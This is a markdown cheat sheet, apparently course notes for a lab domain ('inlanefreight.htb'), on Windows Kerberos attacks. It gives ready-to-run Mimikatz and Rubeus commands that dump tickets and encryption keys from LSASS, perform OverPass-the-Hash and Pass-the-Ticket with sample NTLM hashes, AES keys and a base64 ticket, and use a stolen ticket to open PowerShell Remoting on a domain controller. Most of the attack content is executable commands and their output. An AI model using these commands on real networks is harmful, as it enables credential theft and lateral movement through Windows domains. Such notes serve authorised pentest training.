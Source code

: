 # Content 
- [Harvesting Kerberos Tickets from Windows](#harvesting-kerberos-tickets-from-windows)
 - [Mimikatz - Export Tickets](#mimikatz---export-tickets)
 - [Rubeus - Export Tickets](#rubeus---export-tickets)
- [Pass the Key or OverPass the Hash](#pass-the-key-or-overpass-the-hash)
 - [Mimikatz - Extract Kerberos Keys](#mimikatz---extract-kerberos-keys)
 - [Mimikatz - Pass the Key or OverPass the Hash](#mimikatz---pass-the-key-or-overpass-the-hash)
 - [Rubeus - Pass the Key or OverPass the Hash](#rubeus---pass-the-key-or-overpass-the-hash)
- [Pass the Ticket (PtT)](#pass-the-ticket-ptt)
 - [Rubeus - Pass the Ticket](#rubeus---pass-the-ticket)
 - [Mimikatz - Pass the Ticket](#mimikatz---pass-the-ticket)
 - [Mimikatz - PowerShell Remoting with Pass the Ticket](#mimikatz---powershell-remoting-with-pass-the-ticket)
 - [Rubeus - PowerShell Remoting with Pass the Ticket](#rubeus---powershell-remoting-with-pass-the-ticket)

- On Windows, tickets are processed and stored by the LSASS (Local Security Authority Subsystem Service) process. 
- Therefore, to get a ticket from a Windows system, you must communicate with LSASS and request it. As a non-administrative user, you can only get your tickets, but as a local administrator, you can collect everything.

## Harvesting Kerberos Tickets from Windows
We need a valid Kerberos ticket to perform a Pass the Ticket (PtT). It can be:

- Service Ticket (TGS - Ticket Granting Service) to allow access to a particular resource.
- Ticket Granting Ticket (TGT), which we use to request service tickets to access any resource the user has privileges.



Note: 
1. The tickets that end with $ correspond to the computer account, which needs a ticket to interact with the Active Directory.
2. User tickets have the user's name, followed by an @ that separates the service name and the domain, for example: `[randomvalue]-username@service-domain.local.kirbi` .
3. If you pick a ticket with the service krbtgt, it corresponds to the TGT of that account.
4. 
```
At the time of writing, using Mimikatz version 2.2.0 20220919, if we run "sekurlsa::ekeys" it presents all hashes as des_cbc_md4 on some Windows 10 versions. Exported tickets (sekurlsa::tickets /export) do not work correctly due to the wrong encryption. It is possible to use these hashes to generate new tickets or use Rubeus to export tickets in base64 format.
```


### Mimikatz - Export Tickets

```powershell
mimikatz.exe privilege::debug "sekurlsa::tickets /export"
```

### Rubeus - Export Tickets

```powershell
Rubeus.exe dump /nowrap
```


## Pass the Key or OverPass the Hash
- The Pass the Key or OverPass the Hash approach converts a hash/key (rc4_hmac, aes256_cts_hmac_sha1, etc.) for a domain-joined user into a full `Ticket-Granting-Ticket (TGT)`.
- To forge our tickets, we need to have the user's hash
- we can use Mimikatz to dump all users Kerberos encryption keys using the module sekurlsa::ekeys. This module will enumerate all key types present for the Kerberos package.
- once we have access to the `AES256_HMAC` and `RC4_HMAC` keys, we can perform the OverPass the Hash or Pass the Key attack using Mimikatz and Rubeus.
- Modern Windows domains (functional level 2008 and above) use `AES` encryption by default in normal Kerberos exchanges. If we use a `rc4_hmac` (NTLM) hash in a Kerberos exchange instead of an` aes256_cts_hmac_sha1 (or aes128) key`, it may be detected as an "encryption downgrade." 

### Mimikatz - Extract Kerberos Keys

```powershell
mimikatz.exe privilege::debug "sekurlsa::ekeys"
```

### Mimikatz - Pass the Key or OverPass the Hash
```powershell
mimikatz.exe privilege::debug "sekurlsa::pth /domain:inlanefreight.htb /user:plaintext /ntlm:3f74aa8f08f712f09cd5177b5c1ce50f"
```
### Rubeus - Pass the Key or OverPass the Hash
Note: Mimikatz requires administrative rights to perform the Pass the Key/OverPass the Hash attacks, while Rubeus doesn't.

```powershell
Rubeus.exe  asktgt /domain:inlanefreight.htb /user:plaintext /aes256:b21c99fc068e3ab2ca789bccbef67de43791fd911c6e15ead25641a8fda3fe60 /nowrap
```

## Pass the Ticket (PtT)
Now that we have some Kerberos tickets , we can get some `TGS` and use them to move laterally within an environment.

### Rubeus - Pass the Ticket
```powershell
Rubeus.exe asktgt /domain:inlanefreight.htb /user:plaintext /rc4:3f74aa8f08f712f09cd5177b5c1ce50f /ptt
Rubeus.exe ptt /ticket:[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi

# Pass the Ticket - Base64 Format

[Convert]::ToBase64String([IO.File]::ReadAllBytes("[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"))
Rubeus.exe ptt /ticket:doIE1jCCBNKgAwIBBaEDAgEWooID+TCCA/VhggPxMIID7aADAgEFoQkbB0hUQi5DT02iHDAaoAMCAQKhEzARGwZrcmJ0Z3QbB2h0Yi5jb22jggO7MIIDt6ADAgESoQMCAQKiggOpBIIDpY8Kcp4i71zFcWRgpx8ovymu3HmbOL4MJVCfkGIrdJEO0iPQbMRY2pzSrk/gHuER2XRLdV/<SNIP>
```

### Mimikatz - Pass the Ticket
```powershell
mimikatz.exe privilege::debug "kerberos::ptt 'C:\Users\plaintext\Desktop\Mimikatz\[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi'"

```


### Mimikatz - PowerShell Remoting with Pass the Ticket

```powershell
mimikatz.exe privilege::debug "kerberos::ptt 'C:\Users\plaintext\Desktop\Mimikatz\[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi'"

c:\tools>powershell
Windows PowerShell
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\tools> Enter-PSSession -ComputerName DC01
[DC01]: PS C:\Users\john\Documents> whoami
inlanefreight\john
```

### Rubeus - PowerShell Remoting with Pass the Ticket

```powershell
Rubeus.exe createnetonly /program:"C:\Windows\System32\cmd.exe" /show
```
The above command will open a new cmd window. From that window, we can execute Rubeus to request a new TGT with the option /ptt to import the ticket into our current session and connect to the DC using PowerShell Remoting.

```powershell
 Rubeus.exe asktgt /user:john /domain:inlanefreight.htb /aes256:9279bcbd40db957a0ed0d3856b2e67f9bb58e6dc7fc07207d0763ce2713f11dc /ptt
```
